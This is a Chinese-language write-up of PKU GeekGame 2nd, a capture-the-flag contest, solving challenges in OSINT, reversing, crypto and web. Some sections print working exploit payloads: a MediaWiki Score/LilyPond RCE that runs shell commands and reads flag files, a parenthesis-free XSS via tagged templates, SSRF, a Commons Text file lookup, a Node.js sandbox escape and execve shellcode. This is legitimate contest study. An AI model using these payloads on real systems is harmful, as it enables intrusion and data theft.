

# GeekGame 2nd Writeup

## †签到†

下载一看还是熟悉的 PDF，但是忘了要用什么软件打开了，急死。结果还真的跟
[去年签到题](https://github.com/PKU-GeekGame/geekgame-1st/tree/master/writeups/xmcp)
一样。事后测试 Chomium 不行，Firefox 和 Sumatra PDF 可以。

[†升天† ⏚接地⏚](https://www.bilibili.com/video/BV1xr4y1r7BN)（无关联想）

## 小北问答 · 极速版

急急急。需要在 3 秒内全对 7 道题，但是是从 8 道题里随机，所以最多可以有一道不会。用的
pwntools，因为
[限制 30 秒内连接 3 次](https://geekgame.pku.edu.cn/#/info/faq)，所以答完一次停
10 秒。

1. 北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少？

    答案格式：`^[\d.]+\/[\d.]+$`

    搜索打开百度百科（，点开底部参考资料可以得到
    [论文链接](https://dl.acm.org/doi/10.14778/2002974.2002976)。

2. 每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？

    答案格式：`^[a-z.]+$`

    搜索到文件名是 pkurunner-latest.apk，但是不对，命名不规范呀。下载后不想安装，找到了
    <https://paulsbruce.io/blog/2016/09/android-studio-how-to-find-the-package-name-from-apk/>
    ，执行 `aapt list -a` 然后翻一下可以知道是 `cn.edu.pku.pkurunner`。

3. 在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 14 级关卡需要多少金钱？

    答案格式：`^\d+$`

    <https://github.com/PKU-GeekGame/geekgame-1st/blob/master/src/pygame/game/server/libtreasure.py#L19>

    ```python
    GOAL_OF_LEVEL = lambda level: 300+int(level**1.5)*100
    ```

    注意关卡会变化，不能 hard code。

4. 访问网址 “<http://ctf.世界一流大学.com>” 时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？

    答案格式：`^[^:\s]+$`

    用浏览器访问，然后在开发者工具看。

5. 我有一个朋友在美国，他无线路由器的 MAC 地址是 d2:94:35:21:42:43。请问他所在地的邮编是多少？

    答案格式：`^\d+$`

    试了几个网站比如 <https://macaddress.io/> 都没查到 vendor，我自己也不熟悉
    MAC 地址的分配，就先跳过了。事后在
    <https://regauth.standards.ieee.org/standards-ra-web/pub/view.html#registries>
    也没查到。

6. 我刚刚在脑海中想了一个介于 9072615622 到 9072615970 之间的质数。猜猜它是多少？

    答案格式：`^\d+$`

    ```shell
    for x in {9072615622..9072615970}; do factor $x | grep -E ': [0-9]+$'; done
    ```

    范围内的质数不止一个，每次随便猜第一个。

7. 支持 WebP 图片格式的最早 Firefox 版本是多少？

    答案格式：`^\d+$`

    <https://hacks.mozilla.org/2019/01/firefox-65-webp-flexbox-inspector-new-tooling/>

8. 视频 bilibili.com/video/BV1EV411s7vu 也可以通过 bilibili.com/video/av_____ 访问。下划线内应填什么数字？

    答案格式：`^\d+$`

    [mcfx 给了代码](https://www.zhihu.com/question/381784377/answer/1099438784)
    ，或者直接找个在线服务。

## 编原译理习题课

全靠搜索。第一问利用已初始化内存。第二问递归 include。第三问没看懂，可能跟类型推导有关。

## Flag Checker

用 [FAQ](https://geekgame.pku.edu.cn/#/info/faq) 推荐的 JADX
打开，直接反编译出来了，可读性很好，太感动了。把 Java 代码复制出来，注释掉
ScriptEngine，加一行
`this.textField1.setText(rot13("MzkuM8gmZJ6jZJHgnaMuqy4lMKM4"));`，再 base64
解码得到 flag1。flag2 的 JavaScript 我在 Java 里折腾了好一顿得到的都是乱码，
可能因为用的 JDK 11，最后复制出来用 Python 解码了。虽然混淆过但不长，改改就能看懂，
代码居然还是读的 checkflag2 函数自己。

```python
s = "..."
s = ''.join(chr(ord(c) ^ 239) for c in s)
# "function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}"
l = [0, 15, 16, 17, 30, 105, 16, 31, 16, 67, 3, 33, 5, 60, 4, 106, 6, 41, 0, 1, 67, 3, 16, 4, 6, 33, 232]
''.join(s[i] for i in l)
# 'flag{javascript-obfuscator}'
```

## 智慧检测器

稍微玩一下，花一些时间读代码，没发现什么。沮丧之下一顿乱敲，发现可以穿墙，又一顿乱玩出了
IndexError。本地调试发现 bug 出在 422 行 `CurPos = NewPos`，
让两个名字指向同一个对象了，当玩家一次输入多个指令时，如果非法指令出现在后面，
虽然会退出循环，但位置已经被更新了，而且不算入步数。flag1 最速通关方法大概是在第一轮输入
xU。

flag2 花了不少时间。首先步数限制不会被重置所以没法 BFS，然后想到可以在第一层 D 一下利用
Python 的 -1 到达最后一层，但此时记录的 z 坐标是 -1，除了 R 以外什么都不能干。
虽然可以利用 DisplayCurrentPos 相似的 bug 先把终点所在位置的墙先改写成 @
（只对上下两行有效），然后一个 D 跳到终点，但胜利判断在最后所以不会被执行，
只会留下一个被改写成了 @ 的终点。

提示出来后想了想，发现漏了重要的点。一是因为违法步不算数，实际最多可以执行
99 \* 2 - 1 = 197 步，二是 U 也可以随便用，不用先找 +，所以 80 层 + 55
大小其实是可以走完的。最终策略是先 xD 看看终点，太远就直接重开，然后一路 xU
过去，不过手动玩还是要花不少时间。

话说玩的时候想起以前课设也写过类似的迷宫游戏，四联通每次走两步方便画墙，
用生成树来生成迷宫，在玩家位置加一个透明度渐变的遮罩，不过是落后的 2D。

## 我用108天录了个音

用
[Microsoft TTS demo](https://azure.microsoft.com/zh-cn/products/cognitive-services/text-to-speech)
生成语音，然后用 Windows 的 Sound Recorder 从
[Stereo Mix](https://www.howtogeek.com/howto/39532/how-to-enable-stereo-mix-in-windows-7-to-record-audio/)
录音。顺带发现原来经常能听到短视频里的恶心男声就是微软 TTS 的云希。

为了成功率学习群友先分开录制再用 ffmpeg 切割合并，停顿图方便也是直接录制。
微调一下之后全部识别成功，拿到 0 个 flag。一共 5 个句子，停顿要 10 秒，光停顿就超过 30
秒了。因为群里一直在讨论文件大小而没有提时长，所以时长应该是比较容易达成的条件。

从输出可以知道判题服务用的是 ffprobe。大概有几种思路，
找到文件头中记录时长的位置直接编辑（看了几种格式都没有）、找一种支持类似 hard link
的格式重复使用同一段沉默间隔、直接看 ffprobe 源码和让音频格式坏掉。一顿搜索和尝试，
最后发现 ogg 格式文件在
[asetpts](http://ffmpeg.org/ffmpeg-all.html#setpts_002c-asetpts)
一个负数后既能使 ffprobe 时长变短，又能被 API 识别，其他几种都不行。

```shell
start=1.9; len=1.3; name=...; ffmpeg -i $name.m4a -c:a aac -b:a 128k -ar 8000 -ss $start -t $len $name-$start-$len-128k.m4a
ffmpeg -f concat -i list.txt -c copy out.m4a
ffmpeg -i out.m4a -filter_complex asetpts=PTS-20/TB asetpts.m4a
```

## 企鹅文档

打开开发者工具，在 Network 里搜索“机密flag”，得到一个 opendoc 的请求，
里面有隐藏单元格的内容。但这个请求只是前面一部分的数据，于是右键 Copy as cURL (bash)，
修改 endrow 再次提交，写脚本拼接一下得到一个
[链接](https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobsBzRJEs_next)
。访问后是下一关的内容，这熟悉的套娃让我有点害怕。

下载解压得到一个 HAR，是友好的 JSON 格式。
找到了链接，但文档已经被删除了。查找 `Below is your flag`，把响应复制出来。
数据很长，直接在控制台执行 clientVarsCallback 不行，Local Override 也因为 URL
会变不能成功，以为要 MITM 或者读代码，但看到这么多人通过不像。
最后在腾讯文档里新建一个表，只保留前 K 列，填前几行数据观察一下，可以知道格子坐标是
row \* 11 + column，写脚本打印出来人肉 OCR 即可。

```python
import json
with open('sheet.json', 'r') as f:
    data = json.load(f)
width = 11
for row in range(400):
    for column in range(width):
        print('*' if str(row * width + column) in data else ' ', end='')
    print()
```

## 给钱不要！

目标网站会将 location.href 设置为我们的输入 + ".jpg"。flag2 看提示需要用
`javascript:` 将元素中的内容设置到标题，代码
[要求](https://github.com/chromium/chromium/blob/8afcb6d66c09af9ccf2f306c5e0d1f997bfea024/components/omnibox/browser/autocomplete_input.cc#L306)
文本符合正则表达式 `"(?i)javascript:([^;=().\"]*)"`。参考 JSFuck，`.` 和 `"`
问题不大，比较头疼的是不能用括号和等于号，那就没法赋值了。
[这个回答](https://stackoverflow.com/a/35982227) 说括号可以转义，尝试转义 `=`
不行，eval 也不行。后来找到一篇
[文章](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)
介绍了一种可行的方法，用的是
[Template literal](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)
的 tag function。flag1 的标题也可以设置，但不是 very_safe 所以没用。

```javascript
javascript:[]['map']['call']`${eval}\x28document['title']\x3ddocument['body']['firstChild']['nextElementSibling']['nextElementSibling']['textContent']\x29`
javascript:[]['map']['call']`${eval}\x28document['title']\x3d'GIVE-ME-FLAG-1 #\x3d_\x3d @!+!@ ^~^ \x25[*\x2e*]\x25'\x29`
```

## 私有笔记

flag 链接就在首页，整个页面都在说去查 CVE，另外还有一个版本页。搜索后找到
<https://www.mediawiki.org/wiki/2021-12_security_release/FAQ>，对应的
[bug report](https://phabricator.wikimedia.org/T297322) 里有给出例子，
但读了一会文档和代码还是不知道参数怎么填。一顿猜测后用
`action=edit&undo=1&undoafter=2` 成功读到 flag1。

>You can use the following username and password to login:\
>\* User name: Flag1\
>\* Password: flag{insecure_01d_mediavviki}
>
>Try RCE to find Flag 2.

flag1 给了账号，还提示用 RCE 拿 flag2。试了几个关键字只找到
[RCE in Widgets extension (CVE-2020-35625)](https://phabricator.wikimedia.org/T269718)
，但没装 Widgets 扩展。把 MediaWiki 比较新的 CVE 浏览了一遍也没找到。

提示出来后发现原来是 Score 扩展，
[bug report](https://phabricator.wmmirror.live/T257062) 里就给了很多例子，
引号估计故意用了全角的，需要手动改半角。模板也不创建了，直接用 score 标签。然后会提示
`音频转换需要安装并配置好的TimedMediaHandler扩展版本。`，删掉 `vorbis=1` 就行。

```plaintext
<score lang="lilypond">\new Staff <<{c^#
(number->string (system "/bin/false"))
}>></score>
```

然后就是一顿实验。还去翻了 [Guile](https://www.gnu.org/software/guile/) 的文档想
opendir，后来发现其实不需要。第一个回复有点误导，实际上 system 可以成功执行。
把输出重定向到 /var/www/html/ 就可以从 HTTP 服务读了。

```scheme
(object->string (getpwuid (getuid)))
; #("www-data" "x" 33 33 "www-data" "/var/www" "/usr/sbin/nologin")
(if (file-exists? "/var/www/html/index.php") "true" "false")
; true
(object->string (system "echo \"<!DOCTYPE html> <html> <body> <pre>\" > /var/www/html/out2.php"))
; 0
(if (file-exists? "/var/www/html/out2.php") "true" "false")
; true
(object->string (stat "/var/www/html/out2.php"))
; uid and gid are 33, size is 36 bytes
(object->string (system "find / -name \"*flag*\" -print >> /var/www/html/out2.php"))
; 0
; https://prob07-xxxxxxxx.geekgame.pku.edu.cn/out2.php
; /flag2
(object->string (system "cat /flag2 >> /var/www/html/out2.php"))
; 0
; flag{li1yp0nd_can_1ead_to_rce}
```

## 企业级理解

根据提示访问 `/admin/` 得到一个表单，在 action 末尾加个斜杠就可以提交，选择
PKU_GeekGame 就会返回 flag1。

把 `/admin/source_bak/` 下载下来，是 web.jar 的源代码。代码匹配了 `/admin/`
后面的变量，URL decode 之后用作 POST 的 URI。从
[文档](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/web/reactive/function/client/WebClient.Builder.html#baseUrl(java.lang.String))
可以知道当 URI 是绝对地址的时候 base URL 会被忽略，加上 PDF 的代码中关闭了若干防护，
可以把 URL 传过去。

```javascript
encodeURIComponent(encodeURIComponent("http://localhost:8080"))
// 'http%253A%252F%252Flocalhost%253A8080'
```

访问 `/admin/http%253A%252F%252Flocalhost%253A8080`

```plaintext
Endpoints:
/bonus
/source_bak
```

因为元素是 input 标签，换行会被删掉，可以直接看 HTML。

用同样的方法分别 POST <http://localhost:8080/bonus> 和
<http://localhost:8080/source_bak> 可以得到 flag2 和 bonus 的源代码。

bonus 源代码提示 flag3 在 /root/flag3.txt。当 POST body 的 type 为 CommonsText
时会执行替换，还禁用了几个前缀。阅读
[文档](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html)
可知 file 还能用，审查元素改 type，value 填 `${file:UTF-8:/root/flag3.txt}`
就能得到 flag3。

## 这也能卷

有 index 和 premium 两个页面，premium.js 很长还混淆过，而且一直弹 debugger，用
<https://deobfuscate.io/> 处理了还是不能读。这时查找了一下发现代码里有 flag0，
在控制台执行一下就出来了。回去读 main.js，原来 premium 判断是读 localStorage
的，预期解应该也是这个。

```javascript
localStorage.setItem('i_am_premium_user', 'true')
```

进入高级版后可以向 Node.js 和 浏览器发请求了。index.js 限制了请求需要匹配
`'^([a-z0-9+\\-*/%(), ]|([0-9]+[.])+[0-9]+)+$'`。大写不能用，操作符也只剩几个。`.`
和 `[]` 都不能用，没法访问属性，引号全军覆没。

直接发 `flag` 会返回 `no geek, no flag`。以为实际的代码做了替换于是一顿操作，
结果都不行。

先搜刮一下武器，主要有
[Window](https://developer.mozilla.org/en-US/docs/Web/API/Window) 和 Math
里的东西。看了 <https://hepunx.rl.ac.uk/~adye/jsspec11/builtin.htm> 发现除了 eval
还有 unescape 可以用，
[Operator](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Expressions_and_Operators)
则基本派不上用场。看到
[这个回答](https://stackoverflow.com/a/22939963)
，发现可以用正则表达式传字符串，唯一的问题是转成字符串之后首尾会多一个斜杠。我们可以模仿
SQL 注入，将正则表达式的内容写成 `1/; <expression>/` 的形式。这样开头会组成合法表达式
`/1/`，结尾则是变成注释，最终 eval 返回我们要的表达式的值。正则表达式的内容
URL encode 一次，这样就不受任何限制了。下面给一个例子方便理解

```javascript
encodeURIComponent('1/; flag/')
// '1%2F%3B%20flag%2F'
unescape(/1%2F%3B%20flag%2F/)
// '/1/; flag//'
eval('/1/; flag//')
// Uncaught ReferenceError: flag is not defined
```

过程中发现 flag 变量的值真的就是 `no geek, no flag`，需要读 HTML 的内容得到 flag2。

```python
def f(s):
    return ''.join('%' + hex(c)[2:] for c in s)

def g(s):
    return 'eval(unescape(/' + f('1/; ' + s + '/') + '/))'

g('1/; flag/')
# {"result":"no geek, no flag"}
g('1/; eval("fl"+"ag")/')
# {"result":"no geek, no flag"}
g('document.querySelector("script").innerHTML')
# {"result":"\n    const flag = (() => {\n      const FLAG = `flag{reg3x_byp4ss_made_easy}`\n      return 'no geek, no flag'\n    })()\n  "}
```

flag3 是 Node.js 沙箱，这里没看到提示，估计就在文件系统里。开始动手后会发现由于
[policy](https://nodejs.org/api/permissions.html#policies) 限制我们没法 import
fs，尝试了
[各种](https://nodejs.org/api/esm.html#import-expressions)
[姿势](https://stackoverflow.com/a/51201040)
都宣告失败，还找到了 thezzisu 提的
[issue](https://github.com/nodejs/node/issues/45359)。

```javascript
const fs = module.require('fs')
// ReferenceError: module is not defined in ES module scope
import("fs")
// Error [ERR_MANIFEST_DEPENDENCY_MISSING]: Manifest resource file:///app/backend/runner.js does not list fs as a dependency specifier for conditions: node, import, node-addons
import("#fs")
// [ERR_MANIFEST_DEPENDENCY_MISSING]
import("node:fs")
// [ERR_MANIFEST_DEPENDENCY_MISSING]
import { fs } from "fs"; fs.readdirSync(dir)
// SyntaxError: Cannot use import statement outside a module
```

policy 检查是在
[resolve.js#L1015](https://github.com/nodejs/node/blob/ce16bf553fb11836d69316fc16ec99cddd59058e/lib/internal/modules/esm/resolve.js#L1015)
返回的错误，没看出来怎么绕过。

然后发现 <https://stackoverflow.com/a/51201040> 评论中的非公开接口 process.binding
可以成功，但里面 readdirSync 等函数都是 undefined。看了仓库中的
[用](https://github.com/nodejs/node/blob/5fad0b93667ffc6e4def52996b9529ac99b26319/test/parallel/test-err-name-deprecation.js#L16)
[例](https://github.com/nodejs/node/blob/8822f40b2d48841c6d4fb4c04266a5703bdf33e9/lib/internal/modules/cjs/loader.js#L97)
，对照
[C++](https://github.com/nodejs/node/blob/63aba5672c26dedda546a19430ff06756e87e870/src/uv.cc#L62)
[代码](https://github.com/nodejs/node/blob/775bf629ddd3b4f9f33ae887a2bd6653aed989d8/src/node_file.cc#L1086)
，应该需要函数接受一个类型为 `const FunctionCallbackInfo<Value>&`
的参数才能这样调用。在 node_file.cc 里面查找就能找到
[InternalModuleReadJSON](https://github.com/nodejs/node/blob/775bf629ddd3b4f9f33ae887a2bd6653aed989d8/src/node_file.cc#L988)
。

```javascript
process.binding('fs')
// TypeError: Do not know how to serialize a BigInt
const fs = process.binding("fs"); fs.readdirSync("/")
// TypeError: fs.readdirSync is not a function
process.binding('fs').readdirSync
// Unexpected token 'u', \"undefined\n\" is not valid JSON
process.binding('uv').errname(-1)
// {"result":"EPERM"}
// It works!
process.binding('fs').internalModuleReadJSON('/flag')
// {"result":["flag{node_sAndbox_1s_alwAys_RIsky}\n",false]}
```

## 简单题

一开始想用花指令，找一种最长的 jmp，把其他指令藏在里面，每 jmp 一次执行一条。
但是这需要对各种指令的编码比较了解，读了一会 Intel 的文档还是不会。提示没什么帮助。
然后想到毕竟是冯·诺依曼架构，我们可以用 mov 把指令写到后面去，等 CPU
顺序执行下去就可以了。

反汇编 load 可以看到 mmap 的地址存在 rdx 里，这样我们可以不用折腾 rip 了。

为了简单，直接 execve /bin/cat /flag.txt。字符串直接 mov，偏移手写。

```python
b = b'/bin/cat\x00/flag.txt'
print('\n'.join(bytes(reversed(b[i: i + 4])).hex() for i in range(0, len(b), 4)))
# 6e69622f
# 7461632f
# 6c662f00
# 742e6761
# 7478
```

一顿踩坑和 gdb 调试之后写出了 [execve.s](./13-简单题/execve.s)，汇编后用 load
执行成功。然后写个 [脚本](./13-简单题/gen_mov.py) 生成 mov 汇编汇编一次，
调整偏移再汇编一次。

```shell
./compile.sh execve.s
# 79 bytes.
python gen_mov.py a.bin > mov.s
./compile.sh mov.s
# 200 bytes
base64 a.bin | tr -d '\n'
```

## 编原译理习题课 · 实验班

用递归弄了栈溢出，被 rust 处理了。尝试给自己发 SIGSEGV，但 nix 和 libc 都不能用，
process 折腾了一顿没成功。

出提示后看到 CVE-2021-28879 的
[issue](https://github.com/rust-lang/rust/issues/82282) 里直接就有
segfault，复制下来改改就行。

## 381654729

输入会被 UTF-8 编码，限制每个字节不超过 126，异或一个常量后，需要前 i 位十六进制整除
i。

常量开头是 `flag`，所以输入应该就是 flag。第 5 个字节异或 `{` 之后是
15，这是第一个十六进制位。DFS 一下可以得到答案。

## 乱码还原

第一问爆搜，第二问爆栈。改成手动栈和只考虑结尾之后好像不太对，flag1 压栈次数少了，flag2
没搜出结果，没调试出来。整体思路是保留 shift_jis 解码后被丢掉的最后一个字节继续尝试，
因为它可能跟下一个中文字符的第一个字节组成合法的 shift_jis 字符。
看到提示说分组密码后改了下，毕竟 CBC 允许丢失一部分密文，把最长的结果输出来，还是没看到
flag（那当然）。想到明文已经被丢了一部分还碎得不成样子，再过 `5 ** 10` decode
的希望不大，就没有尝试拼接起来继续搜。

## 奇怪的加密

Substitution cipher，但是每用一次码表会对自己来一下。因为大小写保持不变，
所以小写单字母单词基本上就是 a。记录密文中小写单字母单词的位置，
可以发现同一个字母的间隔都是 22 的倍数，所以 a 所在轮换的长度应该是 22。
这个轮换中出现过的字母有 20 个，剩下的解密一次后观察一下可以知道是 r 和 m。明文中有
`The flag is` 后面跟着 phonetic alphabet 的 flag。

第二问尝试解密发现一塌糊涂。搜索了长串的数字 `415290769594460`，发现是 y 的 MD5。
把一字节的 MD5 只用数字匹配了一下，得到

```plaintext
The MD5??sag?di???l?r?????c?pto?????y??k?????w???u????????n??????28-b???v??.??{m?_1??4??????}??????????????????????????????????,?????f??????????x???????????
```

看到还差了好多，以为需要先解密出来，就去做其他题了。

出提示后再看，突然灵感一动去看 MD5 的
[WikiPedia](https://en.wikipedia.org/wiki/MD5)，发现原来明文也不长，
而且开头的正好是 " m" 和 "es"。把两字节的可见字母串也加进去匹配一下就出来了。

```plaintext
The MD5 message-digest algorithm is a cryptographically broken but still widely used hash function producing a 128-bit hash value
The MD5 message-digest algorithm is a cryptographically broken?t ??widely used hash function p?ucing ?28-b??h value.?ag{md5_1s_re41ly_1n5ecur3} Althoug?D5 was?????gned to be u???crypto?phic h??nction,???een found? suffer from extensive vulnerabil?s.
```

## 方程组

第一问填好系数，用 numpy 的
[numpy.linalg.lstsq](https://numpy.org/doc/stable/reference/generated/numpy.linalg.lstsq.html)
就能解。第二问直接上会解出 ``ek`f{w.t]_qd]_^eoTW[bimry|``，打印出 +-1
的字符可以知道开头是 `flag{`，结尾应该是 `}`。去掉这六项再解，得到
``x0u^ard^`_goho]bjaoxst``。故技重施可知开头是 `y0u_are_a_`，只要填 4 个就够了。

第三问看了提示后大呼神奇，虽然完全不会 lattice，但感觉乱搞一下就能解。然而 Mathematica
要收费，[fpylll](https://github.com/fplll/fpylll) 断断续续折腾到比赛结束都没装好。

## 其他没通过的题目

### 小Z的服务器

一开始猜测是
[Hostbased authentication](https://www.usenix.org/system/files/login/articles/09_singer.pdf)
，一顿乱搞不行。提示出来后看了代码，应该是 owner uid 不对，realpath 可能是指要
symlink，最后还是没想出来。

## 感想

第二阶段后期总感觉其他人在屯 flag，为了最终排名好看一点就多肝了一下，没想到喜（？）提第一。
题目依然很有趣，有机会还打。


